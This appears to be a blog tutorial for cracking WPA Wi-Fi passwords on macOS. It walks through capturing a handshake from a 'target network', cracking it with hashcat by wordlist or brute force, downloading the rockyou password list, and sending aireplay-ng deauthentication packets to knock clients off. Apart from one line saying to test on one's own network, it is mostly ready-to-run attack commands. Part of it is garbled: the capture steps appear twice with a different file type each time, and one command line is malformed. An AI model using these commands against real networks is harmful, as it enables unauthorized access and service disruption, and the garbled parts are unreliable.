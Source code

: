 ```yaml
---
title: Wifi Cracker in Mac OS X
date: 2020-01-12 23:04:34
categories:
tags:
---
```


Mac OS X comes with a suite of wireless diagnostic tools. To open them, hold down the option key on your keyboard and click on the Wi-Fi icon in the menu bar. Then click "Open Wireless Diagnostics..." and then click on Window > Scan. Find the target network, note its channel and width.

# Capture a 4-way Handshake
With Wireless Diagnostics open, click on Window > Sniffer. Select the channel and width that you found in the previous step.
Now you'll need to wait for a device to connect to the target network. If you are testing this on your network (which you should be), reconnect a wireless device to capture a handshake.
Once you think you've got a handshake, click Stop.
The .wcap capture file will either be saved to your Desktop or /var/tmp/ depending on your operating system version.
Convert the capture file to .hccapx by uploading it to https://hashcat.net/cap2hccapx/. If you captured any handshakes, the site will start downloading a .hccapx file. No download will be prompted if you did not.

<!--more-->

* With Wireless Diagnostics open, click on Window > Sniffer. Select the channel and width that you found in the previous step.
* Now you'll need to wait for a device to connect to the target network. If you are testing this on your network (which you should be), reconnect a wireless device to capture a handshake.
* Once you think you've got a handshake, click Stop.
The .pcap capture file will either be saved to your Desktop or /var/tmp/ depending on your operating system version.
* Convert the capture file to .hccapx by using https://github.com/hashcat/hashcat-utils in src folder compile to bin.
  
`gcc -o cap2hccapx cap2hccapx.c" and then run it: "./cap2hccapx"`

# Crack the password with hashcat

```
brew install hashcat
hashcat -m 2500 capture.hccapx wordlist.txt
# or brute force
hashcat -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d
```

# Wordlist - Download the 134MB rockyou dictionary file

```
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

```
Other bigger candidates: 
* https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length
* https://xa.to/10m

# Deauth Attack

## Get deauth Tool
```
brew install aircrack-ng
```
Find `aireplay-ng` in sbin.

```
# -0 2 specifies we would like to send 2 deauth packets. Increase this number
# if need be with the risk of noticeably interrupting client network activity
# -a is the MAC of the access point
# -c is the MAC of the client
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
```
You can optionally broadcast deauth packets to all connected clients with:
```
# not all clients respect broadcast deauths though
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
```